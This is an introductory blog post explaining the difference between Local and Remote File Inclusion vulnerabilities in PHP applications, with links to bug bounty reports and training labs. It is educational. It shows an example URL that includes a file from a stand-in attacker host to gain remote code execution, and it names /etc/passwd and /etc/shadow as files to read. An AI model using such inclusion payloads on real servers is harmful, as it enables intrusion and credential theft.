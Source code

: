 # <center> RFI and LFI, explained and what’s the difference between them? </center>

Hello everyone! <br> Today I'm writing my first blog about two really similiar vulnerabilities.
File Inclusions are mostly found in PHP Applications, they are the result of using <code>include()</code> incorrectly 
(for the most cases). In addition they can be found in Node JS and Python Apps too. People sometimes can't make the difference 
between those two similiar vulnerabilities, that's okay because in today's blog I'll try to explain it on some easy examples.
<br>
Let's see now:
<br>
In the easiest way if we want to explain it, we'll say it like this <br>
When hacker is exploiting RFI he uses a Remote File while on the other side LFI uses local files when they are attacking server,
even the name of the vulnerability tells you that. While exploiting LFI you can get response from the local files on system, 
for example <code>/etc/passwd</code> or <code>/etc/shadow</code>.
<br>
<center> <img src="lfi-example.PNG"/> </center>
<br>
On the other hand while exploiting RFI you can upload file from remote server which in 99% of the times will result in 
RCE(Remote Code Execution). <br> For example <code>https://www.site.com/app.php?file=http://attackers.website.com/file.txt</code>.
You could execute malicious code from the <code>file.txt</code> file and use it for evil intention. <br>
<br>
LFI is way more popular than RFI because nowadays it is way easier to protect against including Remote Malicious Files, but
you never know 🙂. <br>
<br>
File Inclusion Vulnerabilities are ranked critical since they can cause server-side injections and in most cases you can get RCE.

# > Some File Inlusion Reports:
<a href="https://hackerone.com/reports/59665"> Local File Inclusion Vulnerability in Concrete5 version 5.7.3.1 </a> <br> <br>
<a href="https://hackerone.com/reports/895972"> Limited LFI </a> <br> <br>
<a href="https://bugreader.com/updatelap@local-file-inclusion-in-peeringgooglecom-70"> Local File Inclusion in peering.google.com </a> <br> <br>

# > Some More Content About File Inclusions
<a href="https://book.hacktricks.xyz/pentesting-web/file-inclusion"> HackTricks </a> <br> <br>
<a href="https://tryhackme.com/room/inclusion"> TryHackMe </a> <br> <br>
<a href="https://dvwa.co.uk/"> DVWA </a> <br> <br>

That was it for this blog, I hope you enjoyed it and would like you to follow my <a href="https://twitter.com/ArikSyer">Twitter</a>
 so you get notified when I post another blog. Oh yeah I almost forgot, don't forget to join a <a href="https://discord.gg/bugbounty">Discord Bug Bounty</a> server with great community there, you can ask
 for help there if you need it.

